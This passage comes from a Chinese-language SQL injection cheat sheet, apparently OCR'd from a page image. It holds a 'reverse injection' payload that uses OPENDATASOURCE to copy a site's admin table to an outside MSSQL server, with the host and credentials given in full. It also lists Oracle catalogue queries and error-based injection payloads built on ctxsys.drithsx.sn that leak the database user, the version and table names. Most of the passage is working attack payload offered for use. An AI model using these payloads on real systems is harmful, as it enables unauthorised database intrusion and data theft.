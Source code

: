 ### 反弹注入

```
';insert into opendatasource('sqloledb','server=den1.mssql8.gear.host,1433;uid=xyzxyz;pwd=Ct27!_nXWji4;database=xyzxyz').xyzxyz.dbo.test select * from admin --
```

## 0x10 报错注入

### Orcale可用

dual是一个虚表，直接查询他只显示一个X，列名为dummy

dual实际上是为了满足查询语句的结构产生的

查询用户名：select user from dual

调用系统函数：(获得随机值：select dbms_random.random from dual)

做加减法： select 9+1 from dual

查询出所有的表：union all select * from all_tables

查询出当前用户的表：select * from user_tables

查询出所有的字段：select * from all_tab_columns

查询出当前用户的字段：select * from user_tab_columns

查版本：select * from v$version

rownum=1 (限制查询返回的总行数为一条)

Oracle中<>和!=都是不等于

to_nchar()转换进制

### 报错注入

不用管有没有输出点

不用管数据类型

不用管字段数

```
ctxsys.drithsx.sn(user,(select banner from v$version where rownum = 1))
```

查询关于主题的对应关键词，然后因为查询失败爆出想要查询的内容

```
and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum=1 and table_name<>'NEWS'))
```

